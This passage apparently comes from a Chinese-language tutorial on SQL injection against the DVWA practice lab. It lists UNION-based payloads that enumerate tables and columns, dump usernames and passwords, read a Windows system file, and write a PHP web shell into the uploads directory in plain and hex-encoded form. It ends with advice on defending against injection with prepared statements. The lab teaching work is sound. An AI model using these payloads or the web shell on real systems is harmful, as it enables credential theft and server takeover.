union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761    （0x64767761是dvwa的ascii码）
```

7、爆列

```bash
union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa'

union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 and table_schema=0x64767761
```

8、爆内容

```bash
union select group_concat(user),group_concat(password) from users
```

9、读文件

```bash
union select 1,load_file('C:/Windows/win.ini')
```

10、写马

```bash
union select 1,'<?php assert($_POST[a]);?>' into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'

union select 1,0x3c3f7068702061737365727428245f504f53545b615d293b3f3e into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'
```

用into outfile写马需要的条件有：

(1)能够使用单引号

(2)知道绝对路径

(3)对目录需要有写权限且secure_file_priv不限制mysql写入文件的目录


## 4.2 sqlmap注入

## 4.3 SQL注入防御

SQL注入形成的原因是数据和代码没分离，用户可控的数据可以作为SQL语句执行。

因此防御sql注入最有效的方法是使用预编译语句，就像IMPOSSIBLE关这样。

预编译之后输入的参数不会再进行SQL编译，SQL语句的语义不会发生变化。

除此之外，也可以采用安全的存储过程，但存储过程本身可能存在注入；检查输入的数据类型也是有用的，但不是万能的；使用安全函数，注意数据库的最小权限原则也是有利的。
